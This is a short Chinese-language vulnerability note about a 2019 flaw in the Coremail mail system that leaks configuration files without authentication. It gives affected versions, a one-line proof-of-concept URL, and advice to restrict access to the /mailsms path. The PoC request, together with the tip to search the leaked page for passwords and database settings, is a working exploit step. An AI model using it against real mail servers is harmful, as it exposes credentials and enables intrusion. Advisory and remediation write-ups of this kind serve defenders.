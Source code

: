 > 原文：[http://book.iwonder.run/0day/Coremail/1.html](http://book.iwonder.run/0day/Coremail/1.html)

### 一、漏洞简介

Coremail 论客邮件系统开始研发于 1999 年，是中国第一套中文邮件系统，目前在中国大陆地区拥有超过 10 亿终端用户，是网易、中华网等运营商至今一直使用的邮件系统，也是政府、事业单位、科教、企业等机构广泛使用的邮件系统。

2019 年 6 月，网上流传出 Coremail 论客邮件系统配置文件泄露的漏洞，该漏洞无需认证即可获取邮件系统的配置文件内容。

Coremail 官网发布的漏洞公告：《关于 Coremail 邮件系统安全问题的情况说明》，[http://www.coremail.cn/About/news_x/article_id/32641.htm](http://www.coremail.cn/About/news_x/article_id/32641.htm)

### 二、漏洞影响

Coremail XT 3.0.1 至 XT 5.0.9 版本，XT 5.0.9a 及以上版本已修复该漏洞

### 三、复现过程

##### POC

```
http://mail.xxxxx.com/mailsms/s?func=ADMIN:appState&dumpConfig=/ 
```

输入 Poc 访问漏洞页面 发现信息泄露页面内搜索 user，password，database 等关键字 如下图

![image](img/21b1192c3c6e01546a0379679f2ba53a.png)

### 四、修复建议

1、在不影响使用的情况下，仅允许 VPN 连接后才可访问；

2、在 Web 服务器（nginx/apache）上限制外网对 /mailsms 路径的访问。建议使用 Coremail 构建邮件服务器的信息系统运营者立即自查，发现存在漏洞后及时修复。

